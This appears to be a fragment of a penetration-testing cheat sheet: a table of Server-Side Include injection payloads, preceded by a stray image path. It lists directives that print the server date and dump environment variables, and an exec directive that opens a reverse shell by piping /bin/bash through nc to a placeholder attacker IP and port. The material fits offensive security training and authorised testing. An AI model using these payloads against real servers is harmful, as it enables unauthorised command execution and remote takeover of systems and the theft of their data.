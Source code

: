 | **SSI Directive Payload**                                                                                   | **Description** |
| ----------------------------------------------------------------------------------------------------------- | --------------- |
| `<!--#echo var="DATE_LOCAL" -->`                                                                            | Date            |
| `<!--#printenv -->`                                                                                         | All variables   |
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo\|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` |                 |


